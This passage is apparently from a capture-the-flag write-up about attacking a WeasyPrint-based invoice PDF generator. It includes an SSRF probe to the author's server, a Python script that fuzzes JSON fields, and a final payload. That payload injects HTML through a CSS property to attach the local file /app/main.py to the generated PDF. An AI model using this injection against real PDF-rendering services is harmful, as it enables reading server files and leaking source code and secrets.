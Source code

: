 `..."styles":{"body":{"background-image":"url('http://myserver.com.br/')"...`. 

And I got a request on my server with this header: `User-Agent: WeasyPrint 44 (http://weasyprint.org/)`.

### WeasyPrint

What is WeasyPrint? From https://github.com/Kozea/WeasyPrint/ : _WeasyPrint is a smart solution helping web developers to create PDF documents. It turns simple HTML pages into gorgeous statistical reports, invoices, tickets…_. Ok, time to understand more this python library. 

Reading the docs I saw this: _When used with untrusted HTML or untrusted CSS, WeasyPrint can meet security problems. You will need extra configuration in your Python application to avoid high memory use, endless renderings or local files leaks._. Nice! All we need to know now is how to exploit this flaw. Maybe someone opened an issue on github? It was not the case. But, I found this pull request:

"Added support for PDF attachments." (https://github.com/Kozea/WeasyPrint/pull/177).

What an amazing feature! So, using `<link rel='attachment' href='file_path'>` WeasyPrint will attach the file from href location to the PDF. I am sure that it is all we need.

Let's test all json attributes to inject HTML code. Nothing better than creating a python script to help us:

```python
...
URL = 'http://localhost:81/invoices/'
...
def pdfize(payl, filename):
    r = requests.get(URL+PDFIZE, params=payload)
    with open('invoices/'+filename, 'wb') as fd:
        for chunk in r.iter_content(chunk_size=128):
            fd.write(chunk)

def preview(payl):
    r = requests.get(URL+PREVIEW, params=payload)
    print(r.content)

invoice = {"companyName":"</style", "email":"</style", "invoiceNumber":"1", "date":"<html", "<":">", "items":[["1","manoelt<script","manoelt</script","2"],["1","manoelt","manoelt","2"]],"styles":{"body":{"}</style background-color":"white"}}}
payload = {"d" : json.dumps(invoice)}
pdfize(payload, "style_invoice.pdf")
preview(payload)
```

And through only one attribute I was able to inject HTML: CSS property! But the backend was not allowing `</>`... And this tip from [18]: `You can use // to close a tag instead of >.` made the final exploit:

```python

invoice = {"companyName":"", "email":"", "invoiceNumber":"1", "date":"html", "<":">", "items":[["1","manoelt","manoelt","2"],["1","manoelt","manoelt","2"]],"styles":{"body":{"}</style//<img src='http://mydomain.com.br'><link rel='attachment' href='file:///app/main.py'><style> body: {  background-color":"white"}}}
payload = {"d" : json.dumps(invoice)}
pdfize(payload, "style_invoice.pdf")
```
